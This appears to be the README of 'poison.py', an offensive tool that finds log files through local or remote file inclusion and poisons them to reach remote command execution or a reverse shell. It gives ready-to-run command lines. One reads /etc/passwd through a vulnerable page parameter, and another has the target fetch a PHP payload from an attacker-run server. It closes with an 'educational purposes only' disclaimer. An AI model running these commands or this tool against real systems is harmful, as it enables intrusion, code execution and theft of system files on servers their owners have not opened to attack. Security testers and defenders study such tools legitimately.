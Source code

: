 # poison.py
Fast tool to search accessible log's files for LFI/RFI vulnerabilities written on python3, automatic escalation to RCE/Shell.

*(all the wordlists and payloads is included)*

## Installation:
```
git clone https://github.com/coldt3ars/poison
cd poison
pip install -r requirements.txt
python3 poison.py
```
# Exploitation
## Example usage (LFI):
![LFI](https://github.com/user-attachments/assets/bd3a864f-03ea-42dd-a5f5-8d10e803cf33)

```
./poison.py -u 'http://localhost/index.php?page=/etc/passwd' -e 'id' -w src/small.txt -p src/payloads.txt
```
_____________________________________________________________________________________________
```
-u 'http://localhost/index.php?page=/etc/passwd' # URL for poison the log
```

```
-e 'id' # Command to execute (In this time, command is id) (this option can be used for rev. shell)
```

```
-w src/small.txt # wordlist using the search for available log's file
```

```
-p src/payloads.txt # list of paylods during the poisoning
```

## Example usage (RFI):
![RFI](https://github.com/user-attachments/assets/1d6b7044-5ae5-4a44-aa94-33f3513d49a2)
```
./poison.py -u 'http://localhost/index.php?page=/etc/passwd' -w src/big.txt -p src/payloads.txt --rfi --lfile src/script.php --lhost 127.0.0.1 --lport 12345 -e ''
```
_____________________________________________________________________________________________
```
--rfi # Remote File Inclusion option
```

```
--lhost 127.0.0.1 # remote-ip-address of http-server in request during the RFI
```

```
--lport 12345 # remote-port of http-server in request during the RFI
```

```
--lfile 'src/script.php' # payload which include in the request during the RFI
```

```
-e '' # no-op function
```

# ToDo list:
-   [x] Add the function with command execution
-   [x] Add the support of wordlist's
-   [ ] Add different injection endpoints (Headers)
-   [ ] Interactive shell 
-   [X] Add the function for RFI

# FOR EDUCATIONAL PURPOSES ONLY!
Usage of poison.py for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Author assume no liability and are not responsible for any misuse or damage caused by this program
